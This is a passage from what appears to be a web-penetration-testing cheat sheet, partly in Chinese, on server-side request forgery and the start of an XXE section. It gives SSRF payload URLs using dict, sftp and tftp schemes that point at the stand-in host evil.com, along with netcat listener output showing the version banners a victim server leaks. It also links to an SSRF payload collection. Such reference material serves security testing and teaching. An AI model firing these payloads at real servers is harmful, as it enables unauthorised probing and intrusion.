 - dict
```
dict://evil.com:5566

$ nc -vl 5566
Listening on [0.0.0.0] (family 0, port 5278)
Connection from [x.x.x.x] port 5566 [tcp/*] accepted (family 2, sport 40790)
CLIENT libcurl 7.35.0

-> libcurl version
```
- sftp
```
sftp://evil.com:5566

$ nc -vl 5566
Listening on [0.0.0.0] (family 0, port 5278)
Connection from [x.x.x.x] port 5278 [tcp/*] accepted (family 2, sport 40810)
SSH-2.0-libssh2_1.4.2

-> ssh version
```

- Content-Length
  - 送超大Content-length
  - 連線hang住判斷是否為HTTP Service

## UDP

- tftp
  - `tftp://evil.com:5566/TEST`
  - syslog

---

SSRF Bible:

https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit

Testing Payload:

https://github.com/cujanovic/SSRF-Testing


# XXE

## 內部實體

```xml
<!DOCTYPE kaibro[
  <!ENTITY param "hello">
]>
<root>&param;</root>
```
